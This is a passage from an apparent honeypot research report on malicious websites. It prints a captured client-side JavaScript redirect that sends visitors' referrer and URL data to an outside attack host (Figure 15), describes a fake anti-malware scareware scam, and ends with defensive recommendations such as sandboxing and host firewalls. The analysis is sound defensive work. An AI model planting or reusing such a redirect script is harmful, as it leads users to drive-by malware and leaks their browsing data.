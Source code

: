 <script language='javascript' STYLE="behavior:url(#default#clientCaps)" ID="oCli entCaps">
 var ref = document.referrer;
 var url = document.URL;
 if (ref.indexOf('cache:') <= 0 && url.indexOf('cache:') <= 0) {
 window.location.href='http://www.impliedscripting.com/spawn/?r=' +  escape(ref) + '&u=' + escape(url) + '&c=' + escape(oClientCaps.connectionType) + '&cl=' + escape('90716') + '&q=' + escape('interracial cuckold');
 }
 </script>

Figure 15 - Client-side redirect

[![figure16](images/Figure16.JPG "figure16")](https://www.honeynet.org/node/167)

Figure 16 - Malware notification

Once the exploit triggers and gains control of the client machine, we usually observed a quiet installation of malware that subsequently performs its evil deeds. The exploit encountered on anyboard.net is quite different. It applies social engineering strategy by disguising itself as anti-malware software, informing the user that malware exists on the machine, and then proceeds to entice the user to purchase a license of this “anti-malware software”. Figure 16 shows the initial notification about malware existing on the user’s machine. Note how the messaging mechanism resembles the messages of the Microsoft Security Center. Shortly after, the software proceeds to scan the machine and provide specific information about the malware that “exists” on the user’s machine as shown in Figure 17. Conveniently, a pop-up window suggests to purchase a license of this “anti-malware software” online. Major credit cards are accepted.

[![figure17](images/Figure17.JPG "figure17")](https://www.honeynet.org/node/168)

Figure 17 - PestTrap

## Summary & Recommendations

* * *

We have evaluated over 300,000 URLs with our client honeypot Capture-HPC. Several different types of input URLs were inspected by our client honeypot. All input URL categories did contain malicious URLs putting any user accessing the web is at risk. As in real life, some “neighborhoods” are more risky than others, but even users that stay clear of these areas can be victimized. We make a few recommendations to reduce the risk of successful attack by a malicious web server. We acknowledge that there is no silver bullet in this effort, but rather our recommendations are designed to reduce the risks to more acceptable levels.

The first recommendation is to reduce the likelihood that a successful attack will do harm. An attack on your browser will inevitably occur, and there are several measures that can make this attack hit a brick wall even if your browser is vulnerable and the attack succeeds. Using the browser as a non-administrator user or within a Sandbox will not allow malware to install itself on the machine. This is already the default on a Windows Vista and Internet Explorer 7 installation, but there are several products freely available for older versions as well, such as [AMUST Defender](http://www.amustsoft.com/1-defender/) or [Sandboxie](http://www.sandboxie.com/).

Further, we recommend using a host-based firewall that blocks inbound and outbound connections per application. Many firewalls support a learning mode that dynamically configures the firewall via prompting the user to accept/reject a connection. As users tend to accept the prompts without much consideration, we believe this might result in an insecure configuration of the firewall, and should rather be configured by an expert after the installation. Running a host based firewall would restrict malware from performing its malicious deeds. The malware pushed by the Keith Jarrett site, for instance, could not send the collected user data to a malicious data collection server if a host-based firewall is installed. The outgoing connection would have been blocked based on the fact that the malware application wasn’t authorized to make an outbound connection on port 80. Inbound connection blocking is also important. If malware starts a service that allows the attacker to remotely connect to the machine, for instance via a remote desktop software, the firewall could successfully prevent inbound connections from being established. While malware is able to disable such a firewall once it has gained control of the machine, we did not observe such behavior on our client honeypots.
